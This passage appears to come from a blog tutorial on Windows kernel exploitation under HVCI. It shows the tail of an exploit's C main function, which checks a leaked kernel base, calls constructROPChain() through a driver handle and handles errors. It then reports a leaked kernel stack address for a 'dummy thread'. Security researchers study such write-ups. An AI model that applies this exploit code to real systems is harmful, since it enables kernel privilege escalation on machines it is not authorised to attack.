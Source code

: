 ```c
	//
	if (ntBase == (ULONG64)1)
	{
		//
		// Bail out
		//
		goto exit;
	}

	//
	// Invoke constructROPChain() to build our ROP chain and kick off execution
	//
	BOOL createROP = constructROPChain(driverHandle, getthreadHandle, kthread, ntBase);

	//
	// Error handling
	//
	if (!createROP)
	{
		//
		// Print update
		//
		printf("[-] Error! Unable to construct the ROP chain. Error: 0x%lx\n", GetLastError());

		//
		// Bail out
		//
		goto exit;
	}

	//
	// getchar() to pause execution
	//
	getchar();

//
// Execution comes here if an error is encountered
//
exit:

	//
	// Return an error
	//
	return 1;
}

```
After running the exploit (in its current state) we can see that we successfully leaked the stack for our "dummy thread" - located at `0xffffa385b8650000`.

<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI32.png" alt="">
